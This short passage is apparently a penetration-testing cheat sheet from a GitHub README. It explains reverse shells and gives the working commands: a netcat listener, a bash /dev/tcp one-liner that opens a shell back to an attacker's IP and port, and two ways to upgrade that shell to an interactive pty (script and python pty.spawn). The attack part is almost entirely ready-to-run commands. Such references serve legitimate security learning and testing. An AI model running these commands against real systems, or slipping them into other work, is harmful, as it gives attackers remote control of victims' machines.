 - ### Reverse Shell
  A Reverse Shell is a type of connection where a target machine initiates a remote shell back to an attacker's system, allowing the attacker to execute
  commands on the target as if they were locally present. It can be easily achieved using [Netcat](https://nmap.org/ncat/).

  #### Local Machine
  ```bash
  nc -lvnp ${PORT}
  ```
  
  #### Remote Machine
  ```bash
  bash -i >& /dev/tcp/${LOCAL_MACHINE_IP}/${PORT} 0>&1
  ```
  
<br/>

- ### Bash Spawn <br/>
  Spawns an interactive pseudo-terminal **(pty)** running **/bin/bash**, which upgrades a basic shell to behave more like a fully interactive terminal.
  Useful when doing a Reverse Shell.

  ```bash
  script /dev/null -c bash
  ```
  or
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```  
